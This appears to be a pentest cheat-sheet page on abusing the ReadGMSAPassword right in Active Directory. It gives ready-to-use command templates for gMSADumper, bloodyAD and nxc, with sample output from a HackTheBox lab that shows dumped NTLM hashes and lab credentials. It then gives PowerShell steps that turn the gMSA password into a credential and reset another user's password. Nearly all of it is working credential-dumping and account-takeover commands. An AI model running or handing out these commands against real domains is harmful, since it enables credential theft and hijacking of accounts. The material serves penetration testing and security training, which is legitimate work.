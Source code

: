 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["Credential Dumping", "ReadGMSApassword", "Gmsadumper", "Active Directory", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

```console {class="sample-code"}
$ python3 gMSADumper.py -u ted.graves -p Mr.Teddy -l intelligence.htb -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::745bd2c68dfc101a74f48d87027c7dc6
svc_int$:aes256-cts-hmac-sha1-96:8b2e9edb20258a45ad9084c89e7df761f3b85da5abd92849c150d4ed43f1056f
svc_int$:aes128-cts-hmac-sha1-96:798345b20bd9a8866a87b351c0ad68f3
```

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object '<TARGET_OBJECT>' --attr msDS-ManagedPassword
```

```console {class="sample-code"}
$ python3 bloodyAD.py -d intelligence.htb -u ted.graves -p 'Mr.Teddy' --host intelligence.htb get object 'svc_int$' --attr msDS-ManagedPassword 

distinguishedName: CN=svc_int,CN=Managed Service Accounts,DC=intelligence,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:80d4ea8c2d5ccfd1ebac5bd732ece5e4
msDS-ManagedPassword.B64ENCODED: wcVVmCKWYOZszus92zsZDFqtPFYu960EdHowLnWB5vChR4R/yj+hgVusvxgnG1OYREO70qnEiCEfP62qLZluS/UHz53T94CItJ+YxA6W5jiWTy0L03JgE1m87NCnxrzGSXHXjp4Ja1OKDde9RrIaqGN7C7cFZth05q1bOOO+x8+jdD1xRXHKgig5LDk4inLQ1xqu7Lc4vT/hIIPx2dbS0FNwGtKu2NTTVAAB/LgVwYnfMNkpti2T0cE8R12HzjGVLV/54GLU1O8iLyXdnfgAQUdnccIlSacJ3XItjjeTWuOwCKQKmc0o8BbE+rHjA5dotmBiBHsE9bw3YsCh0SNTeA==
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <DC> --gmsa
```

```console {class="sample-code"}
$ nxc ldap -u ted.graves -p 'Mr.Teddy' -d intelligence.htb dc01.intelligence.htb --gmsa
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\ted.graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 80d4ea8c2d5ccfd1ebac5bd732ece5e4
```

{{< /tabcontent >}}

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
$gmsa = Get-ADServiceAccount -Identity '<TARGET_NAME>' -Properties 'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console {class="sample-code"}
PS C:\programdata> $mp = $gmsa.'msDS-ManagedPassword

PS C:\programdata> ConvertFrom-ADManagedPasswordBlob $mp

Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾ롤
                            ᒛ�䬁ማ譿녓鏶骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 2019.19:45:41.4967000
UnchangedPasswordInterval : 2019.19:40:41.4967000
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console {class="sample-code"}
PS C:\programdata> $SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential '<TARGET_NAME>', $SecPass
```

```console {class="sample-code"}
PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential 'BIR-ADFS-GMSA', $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity '<ANOTHER_TARGET_NAME>' -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<NEW_PASSWORD>' -force)} -Credential $cred
```

```console {class="sample-code"}
PS C:\programdata> Invoke-Command -ComputerName . -ScriptBlock {Set-ADAccountPassword -Identity 'tristan.davies' -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Test1234' -force)} -Credential $cred
```

{{< /tabcontent >}}
